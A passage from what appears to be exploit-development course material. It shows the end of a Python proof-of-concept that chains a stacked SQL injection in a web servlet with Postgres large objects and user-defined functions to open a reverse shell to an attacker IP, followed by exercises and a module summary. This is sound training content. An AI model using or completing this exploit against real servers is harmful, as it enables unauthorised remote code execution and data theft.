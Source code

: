 ```
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

> Listing 60 - UDF exercise proof-of-concept

Although we do like our students to earn their shells the hard way, we will provide one hint: _encoding matters_!

#### Exercise

1. Fix the proof of concept script from Listing 60 and obtain a reverse shell.
2. Explain why some encodings will not work.

#### Extra Mile

Use the SQL injection we discovered in this module to create a large object and retrieve the assigned _LOID_ without the use of blind injection. Adapt your final proof of concept accordingly in order to employ this technique avoiding the use of a pre set _LOID_ value (1337).

## 3.9. Summary

In this module we have demonstrated how to discover an unauthenticated SQL injection vulnerability using source code audit in a Java-based web application.

We then showed how to use time-based blind SQL injection payloads along with stack queries in order to exfiltrate database information.

Finally, we developed an exploit that utilized Postgres User Defined Functions and Large Objects to gain a fully functional reverse shell.